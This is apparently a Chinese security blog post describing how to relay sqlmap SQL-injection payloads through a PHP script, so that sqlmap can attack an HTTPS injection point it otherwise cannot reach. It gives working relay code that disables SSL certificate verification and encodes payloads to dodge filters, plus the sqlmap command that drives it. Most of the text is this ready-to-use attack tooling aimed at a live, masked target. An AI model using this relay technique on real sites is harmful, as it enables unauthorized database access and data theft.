 一看无法建立SSL连接，好不容易发现一个注入点，难道就这样放弃了吗？先百度一波，看看SSL证书原理，就用一张图来理解更直接明了

那么遇到这样的情况要怎么绕呢？在sqlmap中没有绕过SSL证书的参数，思考了很长时间，终于想起来原来貌似有一个中转注入。这里要解决的第一个问题是有哪些脚本语言能够在请求网址时忽略SSL证书，第二个问题是我还需要使用sqlmap中的payload，这两个都要满足，通过查询了解到PHP可以使用参数来忽略SSL证书，由于并不是搞开发的，所以这里还是思考了很长时间，先来理解一下中转注入的原理吧。

### 中转注入的原理

首先我们我们来分析一下sqlmap中转注入的原理，如下图：

3<img alt="" src="https://img-blog.csdnimg.cn/0ff9e36c3abf443689da1124d3b56089.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5riX6YCP5rWL6K-V6ICB6bifLeS5nemdkg==,size_19,color_FFFFFF,t_70,g_se,x_16"/>

为了让大家更加容易解，先使用简单的脚本演示一遍，演示代码如下： 

```
&lt;?php
$payload=base64_encode($_GET['x']);//对中转脚本接收的参数进行base64编码
echo $payload
$urls="http://xxx/xxxx?q=1$payload";//对请求的网址拼接base64编码的字符串
file_get_contents($urls);//请求目标网站
echo $urls;
?&gt;
```

网上随便找需一个后面有参数的网站，添加到$urls变量中，将上述代码放在本地服务器中，然后访问，可以看到成功请求到我们添加的网站 

使用sqlmap跑一下,设置一下代理使用burp来抓包

```
python2 sqlmap.py -u "http://127.0.0.1/zhongzhuan.php?x=1"  -v 3 --proxy=http://127.0.0.1:8080
```

成功看到各种payload

burp抓包的结果 

 <img alt="" src="https://img-blog.csdnimg.cn/331473c1f85c412f9d8b753b871dc170.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5riX6YCP5rWL6K-V6ICB6bifLeS5nemdkg==,size_20,color_FFFFFF,t_70,g_se,x_16"/>

```
&lt;?php
set_time_limit(0); 
$id=$_GET["id"]; 
$id=str_replace(" ","/**/",$id); 
$id=str_replace("=","%3D",$id); //这些编码机制可以自己的需求设定，毕竟实战的环境变换多样
$url = "http://xxxx?&amp;daxxtae=null&amp;parame=$id";
echo $url;
$ch = curl_init(); 
curl_setopt($ch, CURLOPT_URL, "$url"); 
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, FALSE); // https请求 不验证证书
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, FALSE);//https请求 不验证hosts
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); // 函数执行如果成功只将结果返回，不自动输出任何内容。如果失败返回FALSE
curl_setopt($ch, CURLOPT_HEADER, 0);//如果你想把一个头包含在输出中，设置这个选项为一个非零值   
$output = curl_exec($ch); 
curl_close($ch); 
print_r($output);
?&gt;
```
